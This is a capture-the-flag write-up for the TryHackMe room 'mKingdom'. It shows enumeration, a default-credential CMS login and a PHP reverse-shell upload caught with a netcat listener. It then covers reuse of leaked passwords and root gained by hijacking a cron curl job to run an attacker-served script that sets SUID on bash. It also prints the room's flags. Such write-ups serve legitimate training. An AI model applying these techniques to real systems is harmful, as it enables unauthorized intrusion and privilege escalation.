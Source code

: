 # Room: mKingdom

## General Info
- **Room link:** [mKingdom](https://tryhackme.com/room/mkingdom)

## Description

Try to root the machine!

## Provided Files / Links
- [x] Target Machine IP (10.10.221.143)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV 10.10.221.143`

```
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```
We have http on port 85.


- Directories Enumeration

`gobuster dir -u http://10.10.221.143:85 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100`

I found this directory:
`/app                  (Status: 301) [Size: 314] [--> http://10.10.221.143:85/app/]`


## Website

On the /app directory, there is a "JUMP" button.
When reading the script from the HTML: 

```

        function buttonClick() {
            alert("Make yourself confortable and enjoy my place.");
            window.location.href = 'castle';
        }
    
```

Clicking on the button redirects you to http://10.10.221.143:85/app/castle/.

The website is a CMS build with concrete5 (https://www.concretecms.com/).

From what I gathered from the internet, the earlier versions of concrete CMS were using admin as username and weak passwords.
I tried to login with admin and a few passwords and I actually got a hit with `password`. 



## Target machine exploitation

I went to a blank blog page and noticed that I could upload files. I created a php reverse shell and tried to upload it but the php extension is not supported.
I added php in the list of the supported extensions, uploaded the php file and I could access the file straight away.

I had previously started a listener on my machine `nc -lnvp 1337`, and I got a shell.

I am now `wwww-data` user.

When looking around, I didn't find anything interesting with this user.

I downloaded, ran linpeas.sh, and found this specific permission:

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                    
-rwsr-xr-x 1 toad root 47K Mar 10  2016 /bin/cat 
```
The problem is that I cannot seem to locate the user.txt file.

In the linpeas results, I also found a database password:

```
'database' => 'mKingdom',
'password' => 'toadisthebest',
```
I tried to use this password to switch user (`su toad`) and it worked.

I was stuck with the user toad for a while and I started reading all the hidden files in the /home/toad directory.

In the .bashrc file, I found a base64 encoded password `aWthVGVOVEFOdEVTCg==` => `ikaTeNTANtES`.

I tried using it on the user mario and it worked.

I found the flag location but couldn't seem to open it with cat (normal), nano, vim...

head worked and I got the flag: **thm{030a769febb1b3291da1375234b84283}**.

I then had a really hard time finding root's password.

I went back to the linpeas results and had a look at the curl script that runs every minute:

`curl mkingdom.thm:85/app/castle/application/counter.sh`

What needs to be done now is changes the /etc/hosts and point the IP to my attacker machine. If I create the same app/castle/application structure and create a bash script to get root access, I'll be able to get the last flag.

For the bash script:
```
#!/bin/bash
chmod u+s /bin/bash
``` 

I just need to create a webserver on port 85 on my machine and wait a little bit (less than a minute) and the target machine is going to execute the counter.sh script on my machine.

The job ran and I was able to get root access. I found the root.txt flag in the root directory: **thm{e8b2f52d88b9930503cc16ef48775df0}**


